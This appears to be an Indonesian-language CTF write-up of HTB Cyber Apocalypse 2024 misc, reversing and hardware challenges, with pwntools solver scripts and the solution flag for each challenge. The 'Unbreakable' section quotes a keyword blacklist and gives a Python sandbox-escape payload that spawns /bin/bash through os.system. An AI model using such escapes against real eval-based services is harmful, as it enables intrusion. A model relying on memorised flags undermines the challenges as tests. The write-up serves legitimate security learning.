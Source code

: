 ```yaml
---
layout: post
title:  "HTB Cyber Apocalypse 2024: Hacker Royale - Misc, Reversing and Hardware"
date:   2024-03-14 00:00:00
description: "HTB Cyber Apocalypse 2024: Hacker Royale - Misc, Reversing and Hardware"
tag:
  - Misc
  - Reversing
---
```


<h2>Table of Contents</h2>
- TOC	- TOC
{:toc}

### **Stop Drop and Roll - Misc**

**Solving Scenario:**\
Service meminta inputan jawaban berupa "STOP, DROP, ROLL". Apabila server mengirimkan "GORGE, FIRE, PHREAK", maka jawabannya adalah "STOP-ROLL-DROP", begitu juga apabila hanya terdapat 1 atau 2 kata seperti "GORGE, FIRE", maka jawabannyay adalah "STOP-ROLL". Lakukan secara terus menerus hingga mendapatkan flag.

![Stop Drop and Roll](images/HTBAPOCALYPSE2024_stopdropandroll1.png)

Solver:
``` python
from pwn import *

mapping = {
"GORGE": "STOP",
"PHREAK": "DROP",
"FIRE": "ROLL"
}

p = remote("94.237.56.188", 46698)

p.recvuntil(b"In this case, you need to send back STOP-ROLL-DROP!")
p.sendline(b"y")
p.recvuntil(b"Ok then! Let's go!")
p.recvline()

while True:
	question = p.recvline().decode().replace("\n", "").split(", ")
	
	if len(question) == 1:
		answer = mapping[question[0]]
		p.sendline(answer.encode())
		print(answer)
	elif len(question) == 2:
		answer = mapping[question[0]]+"-"+mapping[question[1]]
		p.sendline(answer.encode())
		print(answer)
	elif len(question) == 3:
		answer = mapping[question[0]]+"-"+mapping[question[1]]+"-"+mapping[question[2]]
		p.sendline(answer.encode())
		print(answer)
	elif len(question) == 4:
		answer = mapping[question[0]]+"-"+mapping[question[1]]+"-"+mapping[question[2]]+"-"+mapping[question[3]]
		p.sendline(answer.encode())
		print(answer)
	elif len(question) == 5:
		answer = mapping[question[0]]+"-"+mapping[question[1]]+"-"+mapping[question[2]]+"-"+mapping[question[3]]+"-"+mapping[question[4]]
		p.sendline(answer.encode())
		print(answer)
	
	p.recvuntil(b"What do you do? ")

p.close()
```

**Flag**: HTB{1_wiLl_sT0p_dR0p_4nD_r0Ll_mY_w4Y_oUt!}

**================================================================================================**

### **Character - Misc**

**Solving Scenario:**\
Hanya menginputkan index karakter flag yang ingin diambil.

![Character](images/HTBAPOCALYPSE2024_character1.png)

Lakukan automasi agar lebih cepat dan karena flag nya panjang.

Solver:
``` python
from pwn import *

p = remote("94.237.49.182", 57581)

p.recv()

flag = ""
index = 0
while "}" not in flag:
	p.sendline(str(index).encode())
	part = p.recvline()
	flag += chr(part[-2])
	index += 1
	print(flag)
	
p.close()
```

**Flag**: HTB{tH15_1s_4_r3aLly_l0nG_fL4g_i_h0p3_f0r_y0Ur_s4k3_tH4t_y0U_sCr1pTEd_tH1s_oR_els3_iT_t0oK_qU1t3_l0ng!!}

**================================================================================================**

### **Unbreakable - Misc**

**Solving Scenario:**\
main.py file:
``` python
.....SNIP.....
blacklist = [ ';', '"', 'os', '_', '\\', '/', '`',
              ' ', '-', '!', '[', ']', '*', 'import',
              'eval', 'banner', 'echo', 'cat', '%', 
              '&', '>', '<', '+', '1', '2', '3', '4',
              '5', '6', '7', '8', '9', '0', 'b', 's', 
              'lower', 'upper', 'system', '}', '{' ]

while True:
  ans = input('Break me, shake me!\n\n$ ').strip()
  
  if any(char in ans for char in blacklist):
    print(f'\n{banner1}\nNaughty naughty..\n')
  else:
    try:
      eval(ans + '()')
      print('WHAT WAS THAT?!\n')
    except:
      print(f"\n{banner2}\nI'm UNBREAKABLE!\n") 
```

Python Sandbox Escape, bypass dengan "exec(input())"

Solver:
``` python
exec(input())
__import__("os").system("/bin/bash")
```

**Flag**: HTB{3v4l_0r_3vuln??}

**================================================================================================**

### **LootStash - Reversing**

**Solving Scenario:**\
Decompile binary stash dengan IDA, terdapat variable gear. Akses variable gear tersebut diarahkan ke segment data kumpulan kalimat.
Gunakan fungsi search text pada IDA untuk mencari flag dengan format "HTB".

![Stash](images/HTBAPOCALYPSE2024_stash1.png)
![Stash](images/HTBAPOCALYPSE2024_stash2.png)

**Flag**: HTB{n33dl3_1n_a_l00t_stack}

**================================================================================================**

### **BoxCutter - Reversing**

**Solving Scenario:**\
Cukup jalankan ltrace ./cutter dan flag didapatkan

![BoxCutter](images/HTBAPOCALYPSE2024_cutter1.png)

**Flag** HTB{tr4c1ng_th3_c4ll5}

**================================================================================================**

### **PackedAway - Reversing**

**Solving Scenario:**\
Check file dengan strings, diketahui binary di compress dengan UPX sehingga tidak bisa di decompile.

![PackedAway](images/HTBAPOCALYPSE2024_packedaway1.png)

Decompress binary dengan [UPX](https://github.com/upx/upx).
Command: upx -d packed

strings and grep "HTB" pada binary yang telah di decompress maka flag didapatkan.

![PackedAway](images/HTBAPOCALYPSE2024_packedaway2.png)

**Flag**: HTB{unp4ck3d_th3_s3cr3t_0f_th3_p455w0rd}

**================================================================================================**

### **Maze - Hardware**

**Solving Scenario:**\
Check Factory.pdf file didalam folder saveDevice/SavedJobs/Inprogress dan flag didapatkan

![Maze](images/HTBAPOCALYPSE2024_maze1.png)

**Flag**: HTB{1n7323571n9_57uff_1n51d3_4_p21n732}